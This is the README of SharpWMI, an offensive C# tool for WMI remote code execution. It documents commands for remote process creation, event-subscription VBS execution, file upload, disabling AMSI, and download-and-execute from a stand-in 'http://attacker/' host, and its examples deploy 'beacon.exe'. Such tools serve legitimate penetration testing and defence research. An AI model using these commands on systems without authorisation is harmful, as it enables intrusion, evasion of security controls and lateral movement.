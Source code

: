 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:        
    SharpWMI.exe action=query query=""select * from win32_service"" [namespace=BLAH]

  Remote system enumeration: 
    SharpWMI.exe action=query [computername=HOST1[,HOST2,...]] query=""select * from win32_service"" [namespace=BLAH]

  Remote system Logged On users enumeration:
    SharpWMI.exe action=loggedon [computername=HOST1[,HOST2,...]]

  Remote process creation: 
    SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]

  Remote VBS execution: 
    SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload [computername=HOST[,HOST2,...]] source=""C:\\source\\file.exe"" dest=""C:\\temp\\dest-file.exe"" [amsi=disable]

  List processes:
    SharpWMI.exe action=ps [computername=HOST[,HOST2,...]]

  Terminate process (first found):
    SharpWMI.exe action=terminate process=PID|name [computername=HOST[,HOST2,...]]

  Get environment variables (all if name not given):
    SharpWMI.exe action=getenv [name=VariableName] [computername=HOST[,HOST2,...]]

  Set environment variable
    SharpWMI.exe action=setenv name=VariableName value=VariableValue [computername=HOST[,HOST2,...]]

  Delete an environment variable
    SharpWMI.exe action=delenv name=VariableName [computername=HOST[,HOST2,...]]

NOTE: 
  - Any remote function also takes an optional ""username=DOMAIN\\user"" ""password=Password123!"".
  - If computername is not specified, will target localhost.
```

The `result=true` option on `action=exec` (alternatively `action=create`) makes SharpWMI to return command's output after remote WMI process creation. It works by storing command's output in an instance of arbitrary WMI object. That object would  then be fetched by callee and restored to it's original value.


### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query=""select * from win32_process""

  SharpWMI.exe action=query query=""SELECT * FROM AntiVirusProduct"" namespace=""root\\SecurityCenter2""

  SharpWMI.exe action=loggedon computername=primary.testlab.local

  SharpWMI.exe action=query computername=primary.testlab.local query=""select * from win32_service""

  SharpWMI.exe action=query computername=primary,secondary query=""select * from win32_process""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""powershell.exe -enc ZQBj...""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""whoami"" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command=""notepad.exe"" eventname=""MyLittleEvent"" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username=""TESTLAB\\harmj0y"" password=""Password123!""

  SharpWMI.exe action=upload computername=primary.testlab.local source=""beacon.exe"" dest=""C:\\Windows\\temp\\foo.exe"" amsi=disable

  SharpWMI.exe action=terminate computername=primary.testlab.local process=explorer

  SharpWMI.exe action=getenv name=PATH computername=primary.testlab.local

  SharpWMI.exe action=setenv name=FOO value=""BAR"" computername=primary.testlab.local

  SharpWMI.exe action=delenv name=FOO computername=primary.testlab.local
```


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |